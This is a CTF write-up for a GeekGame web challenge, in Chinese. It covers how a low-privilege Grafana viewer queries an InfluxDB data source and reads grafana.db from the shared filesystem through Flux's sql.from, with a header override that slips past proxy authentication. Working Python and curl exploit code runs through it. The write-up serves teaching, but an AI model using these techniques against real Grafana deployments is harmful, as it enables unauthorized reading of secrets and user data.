





# [Web] 高可信数据大屏

- 命题人：xmcp
- 湖仓一体？：250 分
- 数据飞轮！：350 分

## 题目描述

<center><p>
    
    <br><span style="opacity: 0.6">↑ 运维小球正在实时监控比赛情况（用 iPhone 拍摄）（此图与解题无关）</span>
</p></center>


<p>GeekGame 现已建成了基于开源软件 <strong>Grafana</strong> 的最新最热数据大屏系统。此系统与题目数据库深度融合，可以实时监控异常情况，为比赛运维带来了极大便利。</p>
<p>这套数据大屏系统由我们可爱的运维主理人小球同学运营。作为参赛选手，你已经盯上这个目标很久了。因为你知道，只要获取了这个数据大屏的访问权限，就可以直接<strong>读取到题目数据库里存储的 Flag</strong>，也可以访问<strong>出题人的机密人事信息</strong>。</p>
<p>几天后，你终于等到了一个时机。趁小球有一次出去吃饭忘了锁屏，你偷偷潜入系统给自己注册了一个账号。</p>
<p>事了拂衣去，深藏身与名……吗？并没有。你忘了给这个账号开通权限了，它在系统里什么都看不了！</p>
<p>……吗？也未必。正所谓，<strong>没有权限就不能读 Flag 吗？</strong></p>
<p><em>#正常CTF题目无不良引导 #小球辅食 #FOTD</em></p>
<p><strong>补充说明：</strong></p>
<ul>
<li>你的账号：用户名 geekgame，密码 geekgame。</li>
<li>题目源码中的管理员账号：用户名 admin，密码 admin。实际题目的管理员密码与此不同，除此之外没有区别。</li>
<li>Flag 1 在 InfluxDB 中，Flag 2 在 Grafana 管理员的邮箱字段。具体详见源码中的 <code>entrypoint_geekgame.sh</code> 文件。</li>
</ul>
<p><strong>提示：</strong></p>
<ul>
<li>Flag 1：这不是漏洞，这是特性。可以看看 Grafana 的文档。</li>
<li>Flag 2：InfluxDB 和 Grafana 跑在同一个机器上，<strong>共享同一个文件系统</strong>，这很重要。</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>Flag 1 &amp; 2：<a target="_blank" rel="noopener noreferrer" href="https://grafana.com/docs/grafana/latest/developers/http_api/data_source/">看看 Grafana 的 API</a>。</li>
<li>Flag 2：InfluxDB 可以按文件名读取 SQLite 数据库。</li>
<li>Flag 2：在某个地方卡住了？<a target="_blank" rel="noopener noreferrer" href="https://github.com/grafana/grafana/blob/7678fc9de1757af1faeb95cfedbec5f55d7de8f0/pkg/api/pluginproxy/ds_proxy.go#L171-L276">看看 Grafana 源码</a>。</li>
</ul>
</div>

**【网页链接：访问题目网页】**

**[【附件：下载题目源码（web-grafana-src.7z）】](attachment/web-grafana-src.7z)**

## 预期解法

### Flag 1

题目允许我们用viewer的权限登录到grafana。那么viewer权限就能能干什么呢？我们问问G指导，算了，都不用问，直接来[看看文档](https://grafana.com/docs/grafana/latest/administration/roles-and-permissions/)：



> By default, a user can query any data source in an organization, even if the data source is not linked to the user’s dashboards.
>
> Data source permissions enable you to restrict data source query permissions to specific **Users**, **Service Accounts**, and **Teams**. For more information about assigning data source permissions, refer to [Data source permissions](https://grafana.com/docs/grafana/latest/administration/data-source-management/#data-source-permissions/).

噢，说是viewer用户可以直接查询grafana上配的任何数据源。如果想限制这个权限，请花钱上enterprise版，这样就支持data source permission了。

显然这个题没有上enterprise版。那我们看看有什么办法能查询数据源。查[文档](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/#query-a-data-source)发现`/api/ds/query`这样一个API，如果没发现也不要紧，自己开个grafana上去抓个包也能看出来grafana是怎么做查询的。

这样解法就呼之欲出了。首先看看管理员配的InfluxDB数据源是什么ID：

```python
ds_uid = requests.get(
    f'{HOST}/api/datasources',
    auth=('geekgame', 'geekgame'),
).json()[0]['uid']
```

然后就能执行任意influxql。我们先查询都有哪些数据库：

```python
res = requests.post(
    f'{HOST}/api/datasources/proxy/uid/{ds_uid}/query',
    auth=('geekgame', 'geekgame'),
    data={
        'q': 'show databases',
    },
).json()
for v in res['results'][0]['series'][0]['values']:
    if v[0].startswith('secret_'):
        db_name = v[0]
        break
```

再去数据库里查询flag的值：

```python
res = requests.post(
    f'{HOST}/api/datasources/proxy/uid/{ds_uid}/query',
    auth=('geekgame', 'geekgame'),
    cookies=COOKIES,
    data={
        'q': f'select value from {db_name}..flag1',
    },
).json()
flag = res['results'][0]['series'][0]['values'][0][1]
```

即可。

### Flag 2

在Grafana的[文档](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/#query-a-data-source)里，除了`/api/ds/query`以外，还有一个更强大的API：[/api/datasources/proxy/uid/:uid/*](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/#data-source-proxy-calls)，它允许经过Grafana的代理，让我们给InfluxDB发送任意HTTP请求。

先说一下我在出题时候的状态，就是这个代理看起来很牛，应该是个有价值的目标。考虑到[InfluxDB的功能十分丰富](https://docs.influxdata.com/influxdb/v2/api/v2/)，大概能做到一些不得了的事情，比如RCE什么的。让我们把能调用的接口都试一遍：

- 首先注意到一些调试用的接口，比如`/debug/pprof`，虽然看起来很重磅，但实际看看发现也没什么能利用的点。
- 然后就是`/api/v2/notificationEndpoints`，可以发送HTTP请求。
- 还有一些接口可以执行Flux程序，比如`/api/v2/query`和`/api/v2/tasks`。Flux的标准库[可以干很多事](https://docs.influxdata.com/flux/v0/stdlib/)。文档里到处都在强调，InfluxDB的Flux程序并不能访问文件系统，用了会报错，所以十分滴安全！



比如说我尝试了一下 `csv.from`，嗯，确实报错：

```bash
$ curl  --header "Authorization: Token token" http://127.0.0.1:8086/api/v2/query?org=org -XPOST --header "Content-Type: application/vnd.flux" --data '
import "csv"
csv.from(file: "/path/to/data-file.csv", mode: "raw")'
{"code":"invalid","message":"error in csv.from(): csv.from() failed to read file: filesystem service is uninitialized"}
```

再尝试一下 `sql.from`，嗯……？怎么500了？

```bash
$ curl  --header "Authorization: Token token" http://127.0.0.1:8086/api/v2/query?org=org -XPOST --header "Content-Type: application/vnd.flux" --data '
import "sql"
sql.from(
    driverName: "sqlite3",
    dataSourceName: "file:/path/to/example.db?cache=shared&mode=ro",
    query: "SELECT * FROM example_table",
)'
{"code":"internal error","message":"An internal error has occurred - check server logs"}
```

与此同时，`docker log`显示：

```
ts=2025-10-25T18:53:26.424410Z lvl=warn msg="internal error not returned to client" log_id=0zoAvUoW000 handler=error_logger error="unable to open database file: no such file or directory"
```

这个`no such file or directory`就很精髓，完全不像是访问不到文件系统的样子。那这乐子就大了，让我们把文件名改成实际的`grafana.db`看看：

```bash
$ curl  --header "Authorization: Token token" http://127.0.0.1:8086/api/v2/query?org=org -XPOST --header "Content-Type: application/vnd.flux" --data '
import "sql"
sql.from(
    driverName: "sqlite3",
    dataSourceName: "file:/var/lib/grafana/grafana.db",
    query: "SELECT * FROM user",
)'
{"code":"internal error","message":"panic: column is_service_account:int is not of type bool"}
```

乐，不仅读到了，甚至还没做好bool的类型转换所以报错了。这样基本的出题思路就有了：用InfluxDB读Grafana的配置文件，是不是很震撼？（甚至用`sql.to`理论上还能写配置文件，更震撼了，但可惜这个点不好出题）

到这一步大概花了我一个下午的时间来遍历可疑的API。不过作为选手，你已经知道最终目标是在Grafana的管理员邮箱，邮箱存储在配置文件里，而且提示了InfluxDB和Grafana共享文件系统，所以思路应该会更集中一些。

这样一来就可以写出利用脚本：

```python
res = requests.post(
    f'{HOST}/api/datasources/proxy/uid/{ds_uid}/api/v2/query?org=org',
    auth=('geekgame', 'geekgame'),
    headers={
        'Content-Type': 'application/vnd.flux',
    },
    data='''
        import "sql"
        sql.from(
            driverName: "sqlite3",
            dataSourceName: "file:/var/lib/grafana/grafana.db",
            query: "SELECT email FROM user WHERE login='admin'",
        )
    '''
).text
```

然后就发现事情不对，报错 `Authentication to data source failed`。

这个错看起来是Grafana端报的，那就在源码里搜索一下：



仔细看看这个函数，发现原来是Grafana（在`ds_proxy.go:224`）会把Authorization头设置成数据源配置的用户名和密码，但是InfluxDB v2的API只支持用token（而不是用户名密码）鉴权，所以就返回了HTTP 401。



……除非，正如下面紧挨着的这段代码显示，我们设置`X-DS-Authorization`这个头，就可以覆盖自动设置的Authorization头。

这样就得到了Flag 2的最终利用：

```python
res = requests.post(
    f'{HOST}/api/datasources/proxy/uid/{ds_uid}/api/v2/query?org=org',
    auth=('geekgame', 'geekgame'),
    headers={
        'Content-Type': 'application/vnd.flux',
        'X-DS-Authorization': 'Token token',
    },
    data='''
        import "sql"
        sql.from(
            driverName: "sqlite3",
            dataSourceName: "file:/var/lib/grafana/grafana.db",
            query: "SELECT email FROM user WHERE login='admin'",
        )
    '''
).text
print(res)
flag_hex = res.partition(',_result,0,')[2].strip()
print(binascii.unhexlify(flag_hex.encode()).decode())
```

好像最后的`X-DS-Authorization`这一步意外卡了一些选手。出题的时候完全没有意料到，毕竟报了错很自然地就要翻翻源码究竟是为什么报错，然后顺着设置`Authorization`头的逻辑往下多看两行直接就是`X-DS-Authorization`。
